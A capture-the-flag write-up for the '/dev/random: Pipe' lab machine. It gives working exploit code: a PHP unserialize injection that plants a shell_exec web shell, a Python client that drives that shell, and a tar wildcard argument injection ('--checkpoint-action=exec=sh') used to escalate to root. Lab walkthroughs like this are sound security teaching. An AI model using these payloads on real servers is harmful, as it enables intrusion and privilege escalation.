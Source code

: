 +++
title = "/dev/random: Pipe"
date = 2016-10-19
[image]
link = "/images/posts/dev-random-pipe/presentation.jpg"
copyright = "https://unsplash.com/"
+++

Writeup by [npny](https://github.com/npny) and [nobe4](https://github.com/nobe4).

Firstly, we run `nmap` against the website, to discover that (among others), the ports 80 and 22 are open.

`SSH` doesn't yield any results, and we try, without luck, a possible exploit against the used version.

`HTTP` is a lot more interesting:

An HTTP password is asked when trying to access the main page. After a few random try on the different [`HTTP` verbs](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods) we try to access the default `index.php` file, which seems to have the same security. But, making a `POST` request on the file returned a valid `HTML` page. Nice!

We can see in this web page a some useful information:

- there is a javascript file in the subdirectory `scriptz`
- there is an image in the subdirectory `images`

Both directories are not protected and can be accessed and listed.

Moreover, it seems that the file has a link that make a `POST` request and display some information on painters. One crucial note is that the `POST` request is made using a serialize function that (after study) serialize a javascript object into a format that `PHP` can unserialize. A copy of the script can be found [here](http://locutus.io/php/var/serialize/).

The information sent to the server is an object `Info`.

The `images` contains only the image of [La trahison des images](https://en.wikipedia.org/wiki/The_Treachery_of_Images), a famous painting by [René Magritte](https://en.wikipedia.org/wiki/Ren%C3%A9_Magritte). Nothing more here.

The `scriptz` folder contains the `php.js` script as well as a `log.php.BAK` file.

```php
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
        $this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
        $now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
    }

    public function __destruct() {
      file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
?>
```


It seems that this file define a simple logging class in PHP. We are not sure what to do with yet...

But, we can combine this class and use it instead of the `Info` one in the `POST` request. Using the following script:

```python
import requests

#  original info object
#  payload = 'O:4:"Info":4:{' \
        #  + 's:2:"id";'\
        #  + 'i:1;'\
        #  + 's:9:"firstname";'\
        #  + 's:4:"Rene";'\
        #  + 's:7:"surname";'\
        #  + 's:8:"Margitte";'\
        #  + 's:7:"artwork";'\
        #  + 's:23:"The Treachery of Images";'\
        #  + '}'

# new Log payload
payload = 'O:3:"Log":2:{' \
        + 's:8:"filename";'\
        + 's:27:"/var/www/html/scriptz/b.php";'\
        + 's:4:"data";'\
        + 's:39:"<?php echo shell_exec($_GET["cmd"]); ?>";'\
        + '}'

data = { 'param': payload }

r = requests.post("http://ctf01.root-me.org/index.php", data=data)
print r.content
```


What will happen here is the following:

- The `Log` string will be `unserialize`d by the PHP server script.
- During this step, the `filename` and `data` fields will be saved to a set of defined values.
- When the object is destroyed, the content of `data` will be written in the file `filename`.

We had to figure out the directory to use. After some research, we figured out the [default `Apache` folder](http://askubuntu.com/a/684030/399788) is used.

The payload is a simple web shell and will be placed in the folder `scriptz`.

Now, we must find something to do with this shell, first of, the following script enhance the usage of the web shell:


```python
import requests

base = 'http://ctf01.root-me.org/scriptz/b.php'

while True:
    r = requests.get(base, params = {'cmd': cmd})
    print r.content
    cmd = raw_input('> ')
```

This very simple script will get the web page, passing the command as a `GET` argument and display the result.

We immediately check for the `/passwd` file, which is, unfortunately, accessible only by the root user.

After some time looking around, we can see that the files in `/home/rene/backups` are constantly updated. It seems that a backup file is created every minute, and every 5 minutes the 5 backups are compressed together.

Checking the `/etc/crontab` file confirm this, two scripts are running, both as root, this could be the way to leverage the `passwd` file.

```bash

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /root/create_backup.sh
*/5 * * * * root /usr/bin/compress.sh

```

A detail that is interesting, is that both scripts are run as root, but one of them is readable:

```bash

#!/bin/sh

rm -f /home/rene/backup/backup.tar.gz
cd /home/rene/backup
tar cfz /home/rene/backup/backup.tar.gz *
chown rene:rene /home/rene/backup/backup.tar.gz
rm -f /home/rene/backup/*.BAK

```

The interesting part of the script is the line:

```bash
tar cfz /home/rene/backup/backup.tar.gz *
```

Indeed, there is a _vulnerability_ concerning this `*`. If a file or a directory is name like a flag, the command that use the `*` will treat the filename as a flag.

As an example:

```bash
$ touch a b c -la
$ ls
a b c -la
$ ls *
-rw-r--r--  1 user  group  0 Nov 17 18:23 a
-rw-r--r--  1 user  group  0 Nov 17 18:23 b
-rw-r--r--  1 user  group  0 Nov 17 18:23 c
```

This issue is discussed in [this paper](https://www.exploit-db.com/papers/33930/).

Now the command that need to be exploited is `tar`, its man page (and the previous paper) gives us the next step:

```bash
--checkpoint-action=exec=<command>
```

We now need to find the command we want to execute.

To make this step easier, we decided to use a script file on the server to that will be run by root, we thus need to create a file named:

```bash
--checkpoint-action=exec=sh shell.sh
```

Of course, the space in the filename has to be escaped, otherwise the execution will only run `sh`:

```bash
touch home/rene/backup/--checkpoint-action=exec=sh\ script.sh
```

The script.sh will contain the following code, which copy the content file into an accessible file, and will change the permission on it, so that anyone can read it:

```bash
cat /passwd > /var/www/html/scriptz/passwd && chmod a+r /var/www/html/scriptz/passwd
```

Then we just need to check the file from the browser and we get the flag.
